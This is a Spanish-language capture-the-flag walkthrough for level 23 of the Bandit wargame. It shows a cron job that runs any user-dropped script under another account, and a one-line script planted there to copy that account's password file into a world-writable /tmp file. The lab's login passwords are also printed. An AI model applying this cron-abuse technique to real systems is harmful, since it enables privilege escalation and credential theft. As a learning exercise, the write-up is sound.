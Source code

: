 # Bandit Level 23 → Level 24
#bandit 
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```bash
bandit23@bandit:~$ la /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  .placeholder
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir  sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24.sh
cat: /etc/cron.d/cronjob_bandit24.sh: No such file or directory
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/irc01
bandit23@bandit:~$ cd /tmp/irc01
bandit23@bandit:/tmp/irc01$ nano ircscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/irc01$ cat ircscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/irc01/pasword
bandit23@bandit:/tmp/irc01$ chmod 777 ircscript.sh
bandit23@bandit:/tmp/irc01$ touch pasword
bandit23@bandit:/tmp/irc01$ chmod 666 pasword
bandit23@bandit:/tmp/irc01$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Feb 28 18:31 ircscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 pasword
bandit23@bandit:/tmp/irc01$ cp ircscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/irc01$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Feb 28 18:31 ircscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 pasword
bandit23@bandit:/tmp/irc01$ cat pasword
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/irc01$
```
## Notas adicionales
| comando | descripción |
|----------|----------|
|xx|xx|

## Referencias
